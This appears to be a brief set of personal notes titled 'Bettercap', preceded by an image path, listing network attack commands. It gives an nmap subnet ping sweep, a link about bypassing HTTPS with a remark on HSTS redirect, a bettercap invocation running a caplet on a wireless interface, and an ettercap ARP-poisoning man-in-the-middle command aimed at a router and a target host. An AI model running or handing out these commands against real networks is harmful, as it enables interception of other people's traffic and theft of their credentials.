 # Bettercap
sudo nmap -sn ip/subnet

Http to https redirect with HTS

https://www.javatpoint.com/bypassing-https

sudo bettercap -iface wlxd03745bddda3 -caplet command.cap

sudo ettercap -T -S -i wlxd03745bddda3 -M arp:remote /(ip-of-router)// /(ip-of-target)//

